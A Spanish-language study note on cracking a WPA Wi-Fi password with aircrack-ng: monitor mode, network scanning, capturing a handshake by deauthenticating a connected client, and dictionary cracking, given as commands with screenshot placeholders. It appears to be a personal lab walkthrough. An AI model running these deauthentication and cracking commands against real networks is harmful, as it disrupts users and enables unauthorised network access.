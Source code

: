 Lo primero será instalar aircrack-ng:
![[Mis apuntes/ANEXOS/Pasted image 20230103115940.png]]
Y ahora es necesario activar el modo monitor en nuestra interfaz de red, fijándonos en el nombre de la interfaz wifi:
![[Pasted image 20240109092229.png]]
Ahora ejecutamos este comando para convertir la antena wifi en modo monitor:
```bash
airmon-ng start wlp1s0
```
![[Mis apuntes/ANEXOS/Pasted image 20230103120438.png]]
Y ahora si ejecutamos un ifconfig veremos como la interfaz wifi ha cambiado:
![[Mis apuntes/ANEXOS/Pasted image 20230103120719.png]]
Y ahora haremos un escaneo de las redes disponibles con este comando:
```bash
airodump-ng wlp1s0mon
```
![[Mis apuntes/ANEXOS/Pasted image 20230103120946.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230103121047.png]]
Vamos a elegir el wifi llamado Red: 
![[Mis apuntes/ANEXOS/Pasted image 20230103121938.png]]
Y ahora con su BSSID vamos a listar los devices que están conectados a esta red:
```bash
airodump-ng -c 1 --bssid 2C:99:24:69:4F:D9 -w captura wlp1s0mon
```
![[Mis apuntes/ANEXOS/Pasted image 20230103122905.png]]
![[Pasted image 20240109093001.png]]
Y ahora es cuando tenemos que obtener el handshake; y para ello tenemos que generar tráfico al mismo tiempo, por lo que desde otra ventana vamos a generar tráfico:
```bash
# Con el -a cogemos el nombre del BSSID y con -c cogemos la estación.
aireplay-ng -0 9 -a 2C:99:24:69:4F:D9 -c 3E:AF:E4:72:E6:A0 wlp1s0mon 
```
![[Mis apuntes/ANEXOS/Pasted image 20230103123344.png]]
Y una vez lanzado esto, ya tenemos el handshake:
![[Mis apuntes/ANEXOS/Pasted image 20230103123418.png]]
Ahora veremos que tenemos una serie de archivos en el actual directorio, que los usaremos más adelante:
![[Mis apuntes/ANEXOS/Pasted image 20230103123555.png]]
Una vez tenemos esto, solo necesitamos ejecutar este otro comando pasándole el handshake, seleccionando el fichero cap y un diccionario:
```bash
aircrack-ng -b 2C:99:24:69:4F:D9 -w diccionario.txt captura-02.cap
```
![[Mis apuntes/ANEXOS/Pasted image 20230103234820.png]]
Y vemos que nos encuentra la contraseña gracias a que se encontraba dentro del diccionario:
![[Mis apuntes/ANEXOS/Pasted image 20230103234902.png]]
Por último, para restablecer nuestra antena y quitar el modo monitor, lo haríamos de la siguiente forma:
```bash
sudo airmon-ng stop wlan0 # O el nombre de la interfaz que corresponda.
```